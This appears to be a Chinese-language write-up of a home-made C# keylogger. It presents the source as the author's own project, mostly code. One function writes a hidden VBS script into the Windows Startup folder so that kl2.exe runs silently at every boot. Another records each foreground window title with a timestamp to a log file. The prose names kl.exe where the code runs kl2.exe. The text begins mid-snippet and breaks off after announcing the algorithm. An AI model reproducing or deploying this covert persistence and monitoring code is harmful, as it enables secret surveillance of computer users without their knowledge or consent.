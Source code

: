 ```
            {
                Console.WriteLine("No authorization to copy file or other error.");
            }
            
        }
```

- 首先我写了一个startup()函数用于将当前的exe文件拷贝到StartUP文件夹

```
        public static void CopyVbs()
        {
            
            string destination1 = Environment.GetFolderPath(Environment.SpecialFolder.Startup);
            string destination = System.IO.Path.Combine(destination1, "AutoStart.vbs");
            if (!System.IO.File.Exists(destination))
            {
                StreamWriter sw = new StreamWriter(destination);
                sw.WriteLine("Set shell =Wscript.createobject(\"WScript.Shell\")  ");
                sw.WriteLine("shell.Run \"kl2.exe\",0,False");
                sw.Close();
                File.SetAttributes(destination, File.GetAttributes(destination) | FileAttributes.Hidden);
            }
        }
```
- 接着我写了一个函数，用于在StartUp文件夹下新建一个vbs文件，然后用StreamWriter 使得该vbs的内容为运行kl.exe

- 这样，当开机时，系统会自动运行脚本，脚本的内容为运行kl.exe。（仅仅将kl.exe拷贝到StartUp文件夹是无法开机自启动的，本人亲自试过）

#### 3.实时记录当前用户开启的程序和窗口文字的实现：
``` 
public static void GetActiveWindowTitle(object source, EventArgs e)
        {
            const int nChars = 256;     
            handle = GetForegroundWindow();
            StringBuilder Buff = new StringBuilder(nChars);
            GetWindowText(handle, Buff, nChars);          
            txt = Buff.ToString().ToCharArray();
            string t = DateTime.Now.ToString("yyyy-MM-dd H:mm:ss");
            if (!IsFileInUse(path))
            {
               // if (handle != handle1)
                if(!CheckChar(txt1,txt))
                {
                    StreamWriter ww = File.AppendText(Program.path);
                    ww.Write("\n");
                    ww.Write(t);
                    ww.Write(" ");
                    ww.WriteLine(Buff.ToString().ToCharArray());
                    ww.Close();
                   // handle1 = handle;
                    GiveChar(txt1,txt);
                }
            }
        }
``` 
算法大概是这样的
